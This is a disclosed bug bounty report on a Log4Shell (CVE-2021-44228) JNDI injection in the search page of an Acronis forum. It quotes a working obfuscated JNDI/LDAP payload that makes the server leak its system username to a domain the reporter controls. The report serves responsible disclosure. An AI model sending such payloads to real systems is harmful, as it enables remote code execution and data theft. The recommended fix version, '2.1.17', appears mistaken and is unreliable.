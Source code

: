 # [forum.acronis.com] JNDI Code Injection due an outdated log4j component

## Report Details
- **Report ID**: 1430622
- **URL**: https://hackerone.com/reports/1430622
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-19T06:07:01.894Z
- **Disclosed**: 2024-08-28T09:04:18.391Z

## Reporter
- **Username**: godiego
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary

Hi team,

It seems that the machine is affected by the latest CVE-2021-44228 which grants any authenticated user command execution. The vulnerability affects the remote asset forum.acronis.com and this issue allows to remote attackers to perfom Remote Code Execution via JNDI exfiltration.

## Steps To Reproduce

Vulnerable request is: `https://forum.acronis.com/search?s=${j${main:\k5:-Nd}i${spring:k5:-:}ldap://${sys:user.name}-04363f1f3427b48.test3.ggdd.co.uk/}`.

Which generates a pingback exfiltrating the information to my controlled server `ggdd.co.uk`:

{F1551515}

We can see that the system username is `solr`.

## Recommendations

Upgrade Log4j to latest version, 2.1.17.

## Impact

Remote OS command injection via JNDI queries.

## Attachments
- Screenshot_2021-12-19_at_06-05-20_TukTuk.png
